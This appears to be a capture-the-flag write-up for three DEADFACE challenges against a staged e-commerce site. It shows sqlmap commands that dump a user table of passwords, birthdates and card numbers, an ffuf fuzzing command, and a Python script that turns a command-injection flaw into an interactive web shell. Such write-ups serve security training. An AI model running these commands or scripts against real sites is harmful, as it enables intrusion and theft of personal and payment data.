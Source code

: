 ## Let me in

Created By: syyntax
DEADFACE is running an e-commerce site in an attempt to scam victims and steal their data and their money! See if you can find a way to access the site. Submit the flag found on the main page.

Submit the flag as flag{flag-text}

TrendyTrove

`sqlmap -u "https://trendytrove.deadface.io/login.php" --data="username=test&password=test" --batch`

Exfiltrate info: `sqlmap -u "https://trendytrove.deadface.io/login.php" --data="username=test&password=test"  --dump-all --exclude-sysdbs --batch`

```
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+
| id | dob        | city         | email                         | state | gender | postal | street                   | country | password                         | username        | last_name     | first_name | credit_card      | credit_type |
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+
| 1  | 1982-08-04 | Paxton       | admin@trendytrove.site        | NE    | Male   | 69155  | 482 Lincoln Ln           | US      | 1bPEt&3r0B#4hQ                   | admin           | admin         | admin      | 5048378931690658 | mastercard  |
| 2  | 1982-09-24 | Atlanta      | lwaddell0@about.me            | GA    | Male   | 30306  | 69333 Oak Center         | US      | 268d470569108828da0b302034b50bcd | lwaddell0       | Waddell       | Lemmie     | 5048375602863747 | mastercard  |
| 3  | 1983-07-11 | Milwaukee    | kanthoine1@sphinn.com         | WI    | Female | 53277  | 2 Briar Crest Trail      | US      | KaraLynn123!                     | kanthoine1      | Anthoine      | Kara-lynn  | 5048373064404738 | mastercard  |
| 4  | 1996-05-11 | Billings     | spepys2@nydailynews.com       | MT    | Male   | 59105  | 2 Brickson Park Crossing | US      | S3cr3tP@ss!                      | spepys2         | Pepys         | Selig      | 5048372118334172 | mastercard  |
| 5  | 1969-03-14 | Camden       | mkivelle3@uiuc.edu            | NJ    | Female | 08104  | 68 Lakeland Street       | US      | Mada1969$                        | mkivelle3       | Kivelle       | Mada       | 5108758659616083 | mastercard  |
| 6  | 1976-02-10 | Hartford     | lschwandermann4@imageshack.us | CT    | Female | 06152  | 5 Farmco Hill            | US      | Lizzie1976@                      | lschwandermann4 | Schwandermann | Lizzie     | 5048373353911013 | mastercard  |
| 7  | 2001-12-11 | San Antonio  | cyurlov5@seattletimes.com     | TX    | Female | 78230  | 71128 Grayhawk Junction  | US      | Concetta2001#                    | cyurlov5        | Yurlov        | Concettina | 5048377120668970 | mastercard  |
| 8  | 1994-08-09 | Inglewood    | etoy6@wiley.com               | CA    | Female | 90305  | 3 Westend Plaza          | US      | Emm@94T0y!                       | etoy6           | Toy           | Emmalee    | 5048376381363693 | mastercard  |
| 9  | 1990-03-05 | Lansing      | yyurlov7@seesaa.net           | MI    | Female | 48912  | 88 Logan Trail           | US      | Yal0nda90$                       | yyurlov7        | Yurlov        | Yalonda    | 5108758291372194 | mastercard  |
| 10 | 1987-03-28 | Las Vegas    | bmatuska8@dmoz.org            | NV    | Male   | 89160  | 771 Barnett Alley        | US      | Benjie1987!                      | bmatuska8       | Matuska       | Benjie     | 5048376962231442 | mastercard  |
| 11 | 1968-07-29 | Philadelphia | ddraysay9@amazon.com          | PA    | Female | 19136  | 0 Huxley Terrace         | US      | D@wn1968%                        | ddraysay9       | Draysay       | Dawn       | 5108757962496860 | mastercard  |
+----+------------+--------------+-------------------------------+-------+--------+--------+--------------------------+---------+----------------------------------+-----------------+---------------+------------+------------------+-------------+


```


Login as admin with `admin:1bPEt&3r0B#4hQ`

FlaG: `flag{Tr3ndy_Tr0v3_$QL_1nj3ct10n}`


## Yolanda

Created By: syyntax
One of the victims that fell for DEADFACE's scam is Yalonda Yurlov. Confirm that her data was exposed by submitting her birthdate as the flag.

Submit the flag as flag{MM/DD/YYYY}. (An American wrote this, so keep that in mind when formatting your dates)

We have the table so we can get this info easily: `flag{05/03/1990}`


## Compromised Data


Created By: syyntax
Several victims provided credit card information to TrendyTrove. We believe DEADFACE kept this information on the web server somewhere. See if you can find the flag associated with this data.

Submit the flag as flag{flag-text}.

For this one I didnt found anything so I fuzzed the web app and found a admin page together with other files:

`ffuf -u https://trendytrove.deadface.io/FUZZ.php -w ~/SecLists/Discovery/Web-Content/big.txt`

![alt text](Images/fuzz_trendy_trove.png)

There is a functionality in the admin.php that allows a system health check: 

![alt text](image.png)

Looking at the network traffic it makes a POST to admin.php with the following parameters: `command=ping+-c2+8.8.8.8&check_status=`

Changing the ping command to a ls we get the contents of the current directory. TO atuomate the process i created a sort of web shell using python:

```python
import requests
from bs4 import BeautifulSoup
import html

url = "https://trendytrove.deadface.io/"
login = "login.php"
admin = "admin.php"

username = "admin"
password = "1bPEt&3r0B#4hQ"

session = requests.Session()

login_data = {
    "username": username,
    "password": password
}

session.post(url + login, data=login_data)

while True:
    command = input("Enter a command: ")

    admin_data = {
        "command": command,
        "check_status": ""
    }
    resp = session.post(url + admin, data=admin_data)

    soup = BeautifulSoup(resp.text, "html.parser")

    pre_tags = soup.find_all("pre")

    for pre in pre_tags:
        decoded_text = html.unescape(pre.text)
        print(decoded_text)
```

The flag is in the outputs/customers.csv file: `flag{C0MM4ND_1NJ3CT10N_3XP0S3D_D4T4}`